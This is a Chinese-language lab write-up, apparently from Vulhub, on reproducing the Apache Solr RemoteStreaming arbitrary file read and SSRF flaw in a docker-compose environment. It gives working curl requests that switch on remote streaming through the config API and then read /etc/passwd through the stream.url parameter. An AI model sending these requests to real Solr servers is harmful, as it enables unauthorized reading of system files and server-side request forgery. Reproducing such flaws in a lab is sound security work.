



Apache Solr RemoteStreaming 文件读取与SSRF漏洞¶
漏洞描述¶
Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。
参考链接：
环境搭建¶
Vulhub执行如下命令启动solr 8.8.1：
docker-compose up -d
环境启动后，访问http://your-ip:8983即可查看Apache Solr后台。
漏洞复现¶
首先，访问http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json获取数据库名：

发送如下数据包，修改数据库demo的配置，开启RemoteStreaming：
curl -i -s -k -X $'POST' \
-H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
$'http://your-ip:8983/solr/demo/config'

再通过stream.url读取任意文件：
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
